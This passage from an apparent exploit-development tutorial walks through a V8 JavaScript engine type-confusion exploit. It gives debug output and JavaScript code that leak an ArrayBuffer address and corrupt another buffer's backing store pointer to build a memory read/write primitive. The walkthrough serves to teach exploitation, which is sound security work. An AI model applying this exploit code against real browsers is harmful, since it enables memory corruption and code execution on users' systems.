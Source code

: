 ```
 - elements: 0x029264b02cf1 <FixedArray[0]> [HOLEY_ELEMENTS]
 - embedder fields: 2
 - backing_store: 0000000041414141
 - byte_length: 1024
 - neuterable
 - properties: 0x029264b02cf1 <FixedArray[0]> {}
 - embedder fields = {
    0000000000000000
    0000000000000000
 }
...
```

As you can see, our exploit script now successfully leaks the address of the array buffer, and we can confirm that the addresses match within the debug output. We also see that the original leaked data, or `ret`, returns the original backing store address. Additionally, we see that we have successfully overwritten the backing store pointer with `0x41414141`, as shown in the debug output!

With the ability to overwrite the backing store pointer, we can go ahead and continue writing our exploit by building out our memory read/write primitive via the two array buffers. To recap, we need to create two array buffers, leak the address of the second array buffer, and overwrite the backing store pointer of the first array buffer with the address of the second array buffer.

The code to do accomplish this can be seen below.

```js
print("[+] Finding Overlapping Properties...");
findOverlappingProperties();
print(`[+] Properties p${p1} and p${p2} overlap!`);

// Create Array Buffers
let arrBuf1 = new ArrayBuffer(1024);
let arrBuf2 = new ArrayBuffer(1024);

// Leak Address of arrBuf2
print("[+] Leaking ArrayBuffer Address...");
let arrBuf2fAddr = addrOf(arrBuf2);
print(`[+] ArrayBuffer Address: 0x${arrBuf2fAddr.toString(16)}`);

// Corrupt Backing Store Pointer of arrBuf1 with Address to arrBuf2
print("[+] Corrupting ArrayBuffer Backing Store Address...")
let originalArrBuf1BackingStore = fakeObj(arrBuf1, arrBuf2fAddr);
```

With this, we should be able to overwrite the backing store pointer of `arrBuf1` to point to the `arrBuf2` object. To do so, we can create a `TypedArray` for our first array buffer and read the backing store pointer using a 64-bit unsigned integer via the [BigUint64Array](https://developer.mozilla.org/en-US/docs/Web/JavaScript/Reference/Global_Objects/BigUint64Array). This should provide us with the byte representation of the address of the second array buffer.

The updated code for that will look like so.

```js
print("[+] Finding Overlapping Properties...");
findOverlappingProperties();
print(`[+] Properties p${p1} and p${p2} overlap!`);

// Create Array Buffers
let arrBuf1 = new ArrayBuffer(1024);
let arrBuf2 = new ArrayBuffer(1024);

// Leak Address of arrBuf2
print("[+] Leaking ArrayBuffer Address...");
let arrBuf2Addr = addrOf(arrBuf2);
print(`[+] ArrayBuffer Address: 0x${arrBuf2Addr.toString(16)}`);

// Corrupt Backing Store Pointer of arrBuf1 with Address to arrBuf2
```